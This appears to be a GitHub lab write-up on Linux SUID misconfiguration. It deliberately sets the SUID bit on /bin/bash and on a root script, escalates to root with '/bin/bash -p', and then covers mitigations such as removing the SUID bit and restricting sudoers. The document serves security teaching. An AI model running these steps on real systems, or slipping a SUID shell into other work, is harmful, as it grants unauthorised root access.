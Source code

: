 # Proof of Concept (PoC) Task 4: SUID & Privilege Escalation

## Understanding SUID
SUID (Set User ID) is a special permission in Linux that allows a file to be executed with the permissions of its owner (usually root) rather than the user executing it. If misconfigured, this can allow privilege escalation.

### Checking if a Binary has SUID Enabled
Run the following command to check if SUID is set on a binary:
```bash
ls -l /bin/bash
```

#### Expected Output (if SUID is set):
```
-rwsr-xr-x 1 root root 1183448 Feb 11 10:32 /bin/bash
```
The `s` in `rws` means the SUID bit is enabled.

## Setup: Creating a Vulnerable Environment
We will intentionally set up a misconfigured SUID binary and a root-owned script to demonstrate privilege escalation.

### Enable SUID on /bin/bash (Insecure!)
```bash
sudo chmod u+s /bin/bash
```

### Verify the Change
```bash
ls -l /bin/bash
```
#### Expected Output:
```
-rwsr-xr-x 1 root root 1183448 Feb 11 10:32 /bin/bash
```
Now, any user who executes `/bin/bash -p` will inherit root privileges.

### Create a Root-Owned SUID Script (Insecure!)
```bash
sudo touch /root/root_script.sh
sudo echo -e '#!/bin/bash\necho "Root command executed"' | sudo tee /root/root_script.sh
sudo chmod 4755 /root/root_script.sh
```

### Verify the Script
```bash
ls -l /root/root_script.sh
```
#### Expected Output:
```
-rwsr-xr-x 1 root root 44 Mar 11 12:00 /root/root_script.sh
```
  ![Image](https://github.com/user-attachments/assets/e8ef20a0-3dfe-4fa0-a115-f0416a249314)
  
## Exploit: Privilege Escalation

### Find SUID Binaries
```bash
find / -perm -4000 2>/dev/null
```
This lists all binaries with the SUID bit set.

### Exploit the Misconfigured SUID Bash
As a normal user, execute:
```bash
/bin/bash -p
```
Since `/bin/bash` has the SUID bit set, it runs with root privileges.

### Verify Root Access
```bash
whoami
```
#### Expected Output:
```
root
```

### Exploit the SUID Script
Another way to exploit SUID misconfigurations is via a root-owned script.
Try running:
```bash
/root/root_script.sh
```
If accessible, it runs with root privileges due to the SUID bit.

## Mitigation: Securing the System

### Remove SUID from /bin/bash
```bash
sudo chmod -s /bin/bash
```

### Verify the Change
```bash
ls -l /bin/bash
```
#### Expected Output:
```
-rwxr-xr-x 1 root root 1183448 Feb 11 10:32 /bin/bash
```
The SUID bit is removed.

### Secure the Root-Owned Script
```bash
sudo chmod 700 /root/root_script.sh
```
This ensures only root can execute it.

### Verify the Change
```bash
ls -l /root/root_script.sh
```
#### Expected Output:
```
-rwx------ 1 root root 44 Mar 11 12:00 /root/root_script.sh
```

![Image](https://github.com/user-attachments/assets/ab322a26-cbc2-4496-9e8f-06ed473a75ab)

### Use Sudo Instead
Instead of setting SUID, use `sudo` with restricted permissions:
```bash
sudo visudo
```
Add the following line:
```
user ALL=(ALL:ALL) /path/to/safe/script.sh
```
![Image](https://github.com/user-attachments/assets/3b7ca927-d046-4b15-8989-409f903c8b59)

This allows the user to execute only specific commands with `sudo`.



## Conclusion
This PoC demonstrates how misconfigured SUID binaries can lead to privilege escalation and how to mitigate such vulnerabilities by removing SUID permissions and enforcing proper access controls.


